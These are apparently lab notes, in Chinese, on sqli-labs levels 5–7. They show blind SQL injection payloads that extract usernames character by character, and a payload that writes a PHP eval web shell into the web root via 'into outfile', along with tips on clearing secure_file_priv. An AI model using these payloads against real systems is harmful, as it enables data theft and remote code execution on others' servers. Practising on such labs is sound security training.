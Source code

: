 - 接下来开始爆列里面的内容，首先先爆一下username列里面有多少个
> 1' and (select count(username) from security.users)=13--+
- 得到users列里面有13个内容,接下来开始判断每一个的长度
> 1' and length(substr((select username from security.users limit 0,1),1))=4--+
- 第一个用户名长度为4
> 1' and ascii(substr((select username from security.users limit 0,1),1,1))=68--+
- 第一个用户名第一个字符ascii为68，为D
> 1' and ascii(substr((select username from security.users limit 0,1),1,1))=117--+
- 第一个用户名第二个字符ascii为117，为u，完整为Dump
> 1' and ascii(substr((select username from security.users limit 1,1),1,1))=65--+
- 第二个用户名第一个字符ascii为56，为A
> 1' and ascii(substr((select username from security.users limit 1,1),2,1))=110--+
- 第二个用户第二个字符ascii为110，为n，完整爆得

![](./img/lv5.2.png)

# lv6
- 换成了双引号，其余与lv5一致
> 1" and length(database())=8--+
# lv7
- 页面提示文件写入，一句话木马
`1')) union select 1,2,'<?php @eval($_POST["qqqqq"]);?>' into outfile "C:\\phpStudy2018\\PHPTutorial\\WWW\\sql\\Less-7\\666.php"--+`
- mysql查询`show global variables like '%secure%';`,securefilepriv的值是否为NULL,null无法写入，空即可写入
- 不行的话在my.ini 加入`secure_file_priv=`,查看路径，发现已经写入
- 换成了'))闭合，其余与lv5一致
> 1')) and length(database())=8--+

读文件前提：

1、用户权限足够高，尽量具有root权限。

2、secure_file_priv不为NULL

